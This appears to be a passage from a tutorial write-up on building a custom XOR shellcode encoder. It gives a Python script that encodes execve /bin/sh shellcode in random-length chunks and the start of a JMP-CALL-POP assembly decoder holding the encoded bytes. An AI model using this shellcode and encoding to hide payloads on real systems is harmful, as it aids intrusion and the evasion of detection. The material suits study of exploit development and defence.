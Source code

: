 The script what is exactliy doing this operations is looking like this:
``` python
#!/usr/bin/python3
import random

#execve-stsack shellcode
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#costum ending
shellcode += b"\x90\x90\xaa\xbb"

newShellcode = bytearray()
shellcodePos = 0

#loop until whole shellcode is encoded
while shellcodePos < len(shellcode):
    # when less then 6 bytes are left then --> random Value = difference 
    if len(shellcode)- shellcodePos < 6:
        randomValue = len(shellcode) - shellcodePos
    #otherwise set a random value between from 2 to 6
    else:
        randomValue = random.randint(2,6)
    #for later decryption the random value is needed so save 0xff - value to the shellcode
    newShellcode.append(0xff-randomValue)
    #encrypt/XOR with this value the next bytes (amount of bytes to XOR = random value)
    for i in range(0, randomValue):
        newShellcode.append(bytearray(shellcode)[shellcodePos] ^ randomValue)
        #indexer for the old shellcode
        shellcodePos +=1

shellstring = ""
#format the encoded bytearray to the format for nasm
for i in newShellcode:
    shellstring+=hex(i) + ", "
if "00" in shellstring:
  print("There was a null byte found in the shellcode. Please change shellcode or rerun!")
print(shellstring)
```
You can verify this in the output of the python script:
![encode](images/encode.png)

## Decoder in Assembly
Now there is a decoder required which will revert all the encoder activities.
To do so we just add our encoded shellcode and use the JMP CALL POP technice to get the address of our encoded shellcode and pop this to esi. Also all the registers will be cleared.
``` assembly
_start:
    jmp short call_shellcode

decoder:
    pop esi    
    xor ebx, ebx
    xor ecx, ecx   
    xor edx, edx

call_shellcode:
    call decoder
    EncodedShellcode: db 0xfd, 0x33, 0xc2, 0xf9, 0x56, 0x6e, 0x29, 0x29, 0x75, 0x6e, 0xfa, 0x6d, 0x2a, 0x67, 0x6c, 0x6b, 0xfc, 0x8a, 0xe0, 0x53, 0xfd, 0x8b, 0xe0, 0xfc, 0x50, 0x8a, 0xe2, 0xf9, 0xb6, 0xd, 0xcb, 0x86, 0x96, 0x96, 0xfd, 0xa8, 0xb9
```
